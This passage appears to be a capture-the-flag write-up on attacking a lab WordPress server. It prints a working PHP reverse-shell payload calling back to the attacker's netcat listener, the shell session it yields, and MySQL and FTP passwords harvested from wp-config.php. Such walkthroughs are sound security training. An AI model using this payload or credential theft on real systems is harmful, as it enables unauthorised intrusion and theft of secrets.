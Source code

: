 ### Obtaining reverse shell

First we need a listener running on our attacker machine

#### Run a netcat listener

`nc -lvp 4444`

#### Inject reverse netcat code into WordPress

```php
<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.219 4444 >/tmp/f");?>
```
After navigating to `/0` to fire the shell execution, we get shell.
```shell
kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
10.10.116.6: inverse host lookup failed: Unknown host
connect to [10.11.8.219] from (UNKNOWN) [10.10.116.6] 40542                                                      
/bin/sh: 0: can't access tty; job control turned off                                                             
$ whoami
daemon
```

### Browsing system

#### Grabbing credentials from `wp-config.php`
MySQL credentials
```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'bitnami_wordpress');

/** MySQL database username */
define('DB_USER', 'bn_wordpress');

/** MySQL database password */
define('DB_PASSWORD', '570fd42948');

/** MySQL hostname */
define('DB_HOST', 'localhost:3306');
```

FTP credentials
```php
define('FS_METHOD', 'ftpext');
define('FTP_BASE', '/opt/bitnami/apps/wordpress/htdocs/');
define('FTP_USER', 'bitnamiftp');
define('FTP_PASS', 'inevoL7eAlBeD2b5WszPbZ2gJ971tJZtP0j86NYPyh6Wfz1x8a');
define('FTP_HOST', '127.0.0.1');
define('FTP_SSL', false);
```

